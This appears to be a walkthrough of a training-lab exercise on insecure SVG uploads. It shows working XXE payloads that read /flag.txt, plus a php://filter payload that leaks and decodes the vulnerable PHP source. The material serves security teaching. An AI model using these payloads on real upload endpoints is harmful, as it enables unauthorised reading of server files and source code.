






## Exercises

### Question 1 — The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

Visited the target and clicked Upload, which showed the file selector limited to `*.svg`, indicating SVG was the only accepted file type.





With only SVG accepted, tried an XXE payload to read the flag file:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nano payload.svg

┌──(—REDACTED—㉿kali)-[~]
└─$ cat payload.svg 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Uploaded the payload and viewed the page where the SVG gets rendered back, which displayed the flag's contents directly inside the SVG element.





**Answer:** `—REDACTED—`

### Question 2 — Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

Built a second payload using the PHP base64 filter wrapper to read `index.php`'s source instead:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nano payload.svg

┌──(—REDACTED—㉿kali)-[~]
└─$ cat payload.svg      
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Uploaded this and found the rendered SVG now contained a long base64 string instead of plain text:





Decoded the base64 string:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo PD9waHAKbGlieG1sX2Rpc2FibGVfZW50aXR5X2xvYWRlcihmYWxzZSk7Cgokc3ZnX2ZpbGUgPSBmaWxlX2dldF9jb250ZW50cygnLi9pbWFnZXMvJyAuIGZpbGVfZ2V0X2NvbnRlbnRzKCcuL2ltYWdlcy9sYXRlc3QueG1sJykpOwokZG9jID0gbmV3IERPTURvY3VtZW50KCk7CiRkb2MtPmxvYWRYTUwoJHN2Z19maWxlLCBMSUJYTUxfTk9FTlQgfCBMSUJYTUxfRFRETE9BRCk7CiRzdmcgPSAkZG9jLT5nZXRFbGVtZW50c0J5VGFnTmFtZSgnc3ZnJyk7Cj8+Cgo8IURPQ1RZUEUgaHRtbD4KPGh0bWwgbGFuZz0iZW4iPgoKPGhlYWQ+CiAgPG1ldGEgY2hhcnNldD0iVVRGLTgiPgogIDx0aXRsZT5FbXBsb3llZSBGaWxlIE1hbmFnZXI8L3RpdGxlPgogIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iLi9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICA8c2NyaXB0IHNyYz0naHR0cHM6Ly9jZG5qcy5jbG91ZGZsYXJlLmNvbS9hamF4L2xpYnMvanF1ZXJ5LzIuMS4zL2pxdWVyeS5taW4uanMnPjwvc2NyaXB0PgogIDxzY3JpcHQgc3JjPSIuL3NjcmlwdC5qcyI+PC9zY3JpcHQ+CiAgPGRpdj4KICAgIDxoMT5VcGRhdGUgeW91ciBsb2dvPC9oMT4KICAgIDxjZW50ZXI+CiAgICAgIDxmb3JtIGFjdGlvbj0idXBsb2FkLnBocCIgbWV0aG9kPSJQT1NUIiBlbmN0eXBlPSJtdWx0aXBhcnQvZm9ybS1kYXRhIiBpZD0idXBsb2FkRm9ybSI+CiAgICAgICAgPGlucHV0IHR5cGU9ImZpbGUiIG5hbWU9InVwbG9hZEZpbGUiIGlkPSJ1cGxvYWRGaWxlIiBhY2NlcHQ9Ii5zdmciPgogICAgICAgIDw/cGhwIGVjaG8gJHN2Zy0+aXRlbSgwKS0+QzE0TigpOyA/PgogICAgICAgIDxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJVcGxvYWQiIGlkPSJzdWJtaXQiPgogICAgICA8L2Zvcm0+CiAgICA8L2NlbnRlcj4KICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== | base64 -d
<?php
libxml_disable_entity_loader(false);

$svg_file = file_get_contents('—REDACTED—' . file_get_contents('—REDACTED—latest.xml'));
$doc = new DOMDocument();
$doc->loadXML($svg_file, LIBXML_NOENT | LIBXML_DTDLOAD);
$svg = $doc->getElementsByTagName('svg');
?>

<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Employee File Manager</title>
  <link rel="stylesheet" href="./style.css">
</head>

<body>
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
  <script src="./script.js"></script>
  <div>
    <h1>Update your logo</h1>
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm">
        <input type="file" name="uploadFile" id="uploadFile" accept=".svg">
        <?php echo $svg->item(0)->C14N(); ?>
        <input type="submit" value="Upload" id="submit">
      </form>
    </center>
  </div>
</body>

</html>  
```

The source revealed `libxml_disable_entity_loader(false)` — confirming external entity loading is explicitly enabled, which is what makes the XXE payloads work — and the line `file_get_contents('—REDACTED—' . file_get_contents('—REDACTED—latest.xml'))`, showing the uploads directory is `—REDACTED—`.

**Answer:** `—REDACTED—`